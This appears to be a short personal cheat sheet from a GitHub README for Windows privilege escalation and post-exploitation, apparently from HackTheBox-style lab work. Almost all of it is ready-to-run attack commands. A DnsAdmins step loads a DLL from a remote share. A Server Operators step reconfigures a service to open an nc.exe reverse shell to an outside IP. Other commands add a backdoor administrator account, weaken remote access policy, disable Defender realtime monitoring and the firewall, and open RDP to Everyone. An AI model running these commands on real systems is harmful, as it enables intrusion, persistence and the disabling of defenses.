 whoami /groups
## DnsAdmins
```
https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/
dnscmd /config /serverlevelplugindll \\10.10.14.19\mario\mario.dll
```
## Server Operators
```
upload /usr/share/windows-resources/binaries/nc.exe
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"

sc.exe stop vss
sc.exe start vss
```

### Windows Post Explotaton
Crear Usuario
```
net user mario mario123 /add
net localgroup administrators mario /add
```
enable winrm
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
Disable AV 
```
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net localgroup "Remote Desktop Users" Everyone /Add 
```


[Credly](https://www.credly.com/badges/82e259fa-9c93-4f37-bc42-c8442e704a53/public_url)
